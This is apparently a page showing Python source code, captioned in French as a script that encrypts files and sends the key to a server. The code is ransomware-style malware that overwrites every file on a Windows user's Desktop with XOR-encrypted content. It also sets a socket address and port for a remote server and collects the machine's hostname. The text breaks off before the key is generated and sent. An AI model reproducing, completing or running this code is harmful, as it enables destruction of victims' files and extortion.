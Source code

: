 Ce script chiffre les fichiers et envoie la clé de chiffrement au serveur.

```python
import socket
import os
import threading
import queue
import random

# Fonction de chiffrement
def encrypt(key):
    while True:
        file = q.get()
        print(f'Encrypting {file}')
        try:
            key_index = 0
            max_key_index = len(key) - 1
            encrypted_data = ''
            
            with open(file, 'rb') as f:
                data = f.read()
            
            with open(file, 'w') as f:
                f.write('')
            
            for byte in data:
                xor_byte = byte ^ ord(key[key_index])
                with open(file, 'ab') as f:
                    f.write(xor_byte.to_bytes(1, 'little'))
                
                # Incrémenter l'index de la clé
                if key_index >= max_key_index:
                    key_index = 0
                else:
                    key_index += 1
            
            print(f'{file} successfully encrypted')
        except:
            print(f'Failed to encrypt file :(')
        q.task_done()

# Informations de socket
IP_ADDRESS = '192.168.1.85'
PORT = 5678

# Informations sur le chiffrement
ENCRYPTION_LEVEL = 512 // 8  # 512 bit encryption = 64 bytes
key_char_pool = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ<>?,./[]{}|'
key_char_pool_len = len(key_char_pool)

# Préparer les fichiers à crypter
print("Preparing files...")
desktop_path = os.environ['USERPROFILE'] + '\\Desktop'
files = os.listdir(desktop_path)
abs_files = []
for f in files:
    if os.path.isfile(f'{desktop_path}\\{f}') and f != __file__[:-2] + 'exe':
        abs_files.append(f'{desktop_path}\\{f}')
print("Successfully located all files!")

# Obtenir le nom d'hôte du client
hostname = os.getenv('COMPUTERNAME')

# Générer la clé de chiffrement
```